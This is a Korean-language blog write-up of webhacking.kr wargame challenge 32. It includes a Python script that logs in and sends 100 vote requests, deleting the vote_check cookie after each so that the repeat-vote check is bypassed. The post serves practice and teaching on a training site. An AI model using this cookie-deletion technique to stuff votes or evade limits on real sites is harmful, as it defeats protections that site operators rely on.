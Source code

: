 ```yaml
---
title: "[webhacking.kr] 32번 문제 풀이[cookie]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - python
toc: true
toc_sticky: true
toc_label: "32번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 32번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152643800-937caf26-7efe-4f9c-bc91-100d0ba4705d.png)


# 문제 풀이
  자신의 아이디를 100번 클릭하면 됩니다. 이때, 한번 클릭하면 cookie 값으로 vote_check 값이 생겨서 한번 더 클릭하면 다음과 같이 막힙니다.

  ![image](https://user-images.githubusercontent.com/33647663/152643837-eefdf066-b800-4992-b212-87ddcf3c3acb.png)

  ![image](https://user-images.githubusercontent.com/33647663/152643860-3bf33095-c0d0-4b0c-a4cc-ae83f92e05da.png)

  파이썬 코드를 이용해서 100번 반복 요청을 보내고, 매 요청 뒤에 vote_check 쿠키를 삭제하도록 했습니다.

  ```python
  import requests
  def login(session):
      global datas 
      datas = {}
      print(" ------------ login ----------------------")
      datas['id'] = input("webhacking.kr id: ")
      datas['pw'] = input("webhacking.kr pw: ")
      response = session.post("https://webhacking.kr/login.php?login",data=datas)
      if( "<script>location.href='/';</script>" in response.text):
          print("login success : ",datas['id'])
      else:
          print("login Fail")
          exit(0)

  def main():
      session = requests.Session()
      login(session)
      for i in range(100):
          response = session.get("https://webhacking.kr/challenge/code-5/?hit="+datas['id'])
          session.cookies.__delitem__("vote_check")
  

  if __name__=='__main__':
      main()
  ```

  위의 코드를 실행하고 id, pw를 입력하면 풀립니다.

  


